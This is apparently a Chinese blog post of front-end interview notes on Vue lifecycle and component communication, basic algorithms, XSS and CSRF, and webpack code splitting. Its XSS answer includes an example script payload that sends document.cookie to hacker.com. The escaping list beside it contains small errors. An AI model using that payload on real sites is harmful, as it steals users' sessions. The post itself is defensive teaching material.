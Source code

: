 ```yaml
---
title: 前端面试必考篇—VUE、算法、webpack
date: 2018-07-11 18:28:02
tags:
---
```

1.  （必考）Vue 有哪些生命周期钩子函数？
    *   看文档：[https://cn.vuejs.org/v2/api/#选项-生命周期钩子8](https://cn.vuejs.org/v2/api/#%E9%80%89%E9%A1%B9-%E7%94%9F%E5%91%BD%E5%91%A8%E6%9C%9F%E9%92%A9%E5%AD%90)
2.  （必考）Vue 如何实现组件通信？
    1.  父子通信（使用 Prop 传递数据、使用 v-on 绑定自定义事件）
    2.  爷孙通信（通过两对父子通信，爷爸之间父子通信，爸儿之间父子通信）
    3.  [兄弟通信（new Vue() 作为 eventBus）1](https://cn.vuejs.org/v2/guide/components.html#%E9%9D%9E%E7%88%B6%E5%AD%90%E7%BB%84%E4%BB%B6%E7%9A%84%E9%80%9A%E4%BF%A1)
3.  Vuex 的作用是什么？
    *   看文档、博客 [https://vuex.vuejs.org/zh-cn/intro.html3](https://vuex.vuejs.org/zh-cn/intro.html)
4.  VueRouter 路由是什么？
    *   看文档、博客
5.  Vue 的双向绑定是如何实现的？有什么缺点？
    *   看文档，[深入响应式原理6](https://cn.vuejs.org/v2/guide/reactivity.html)
6.  Computed 计算属性的用法？跟 Methods 的区别。 [https://zhuanlan.zhihu.com/p/337785944](https://zhuanlan.zhihu.com/p/33778594)

## [](https://github.com/Jsmond2016/blog/blob/master/%E5%B7%B2%E5%AE%8C%E6%88%90/%E9%9D%A2%E8%AF%95%E7%BB%BC%E5%90%88/%E5%89%8D%E7%AB%AF%E9%9D%A2%E8%AF%95%E5%BF%85%E8%80%83%E9%A2%98.md#%E7%AE%97%E6%B3%95)算法

1.  排序算法（背诵冒泡排序、选择排序、计数排序、快速排序、插入排序、归并排序）
2.  二分查找法
3.  翻转二叉树

把上面三个背一下，算法题必过。

安全押题

1.  什么是 XSS 攻击？如何预防？

    *   举例

        ```
        div.innerHTML = userComment  // userComment 内容是 <script>$.get('http://hacker.com?cookie='+document.cookie)</script>
        // 恶意就被执行了，这就是 XSS

        ```

    *   预防

        1.  不要使用 innerHTML，改成 innerText，script 就会被当成文本，不执行
        2.  如果你一样要用 innerHTML，字符过滤
            *   把 < 替换成 `&lt;`
            *   把 > 替换成 `&gt;`
            *   把 & 替换成 `&amp;`
            *   把 ’ 替换成 `&#39;`
            *   把 ’ 替换成 `&quot;`
            *   代码 div.innerHTML = userComment.replace(/>/g, ‘`&lt;`’).replace…
        3.  使用 CSP Content Security Policy
2.  什么是 CSRF 攻击？如何预防？

    *   过程
        1.  用户在 [qq.com](http://qq.com/) 登录
        2.  用户切换到 [hacker.com](http://hacker.com/)（恶意网站）
        3.  [hacker.com](http://hacker.com/) 发送一个 [qq.com/add_friend](http://qq.com/add_friend) 请求，让当前用户添加 hacker 为好友。
        4.  用户在不知不觉中添加 hacker 为好友。
        5.  用户没有想发这个请求，但是 hacker 伪造了用户发请求的假象。
    *   避免
        1.  检查 referer，[qq.com](http://qq.com/) 可以拒绝来自 [hacker.com](http://hacker.com/) 的请求
        2.  csrf_token 来解决

## [](https://github.com/Jsmond2016/blog/blob/master/%E5%B7%B2%E5%AE%8C%E6%88%90/%E9%9D%A2%E8%AF%95%E7%BB%BC%E5%90%88/%E5%89%8D%E7%AB%AF%E9%9D%A2%E8%AF%95%E5%BF%85%E8%80%83%E9%A2%98.md#webpack)Webpack

1.  转译出的文件过大怎么办？
    *   使用 code split
    *   写法 import(‘xxx’).then(xxx=>{console.log(xxx)})
    *   xxx 模块就是按需加载的
2.  转译速度慢什么办？
    *   方方不会。
3.  写过 webpack loader 吗？
    *   [http://www.alloyteam.com/2016/01/webpack-loader-1/4](http://www.alloyteam.com/2016/01/webpack-loader-1/)

## [](https://github.com/Jsmond2016/blog/blob/master/%E5%B7%B2%E5%AE%8C%E6%88%90/%E9%9D%A2%E8%AF%95%E7%BB%BC%E5%90%88/%E5%89%8D%E7%AB%AF%E9%9D%A2%E8%AF%95%E5%BF%85%E8%80%83%E9%A2%98.md#%E5%8F%91%E6%95%A3%E9%A2%98)

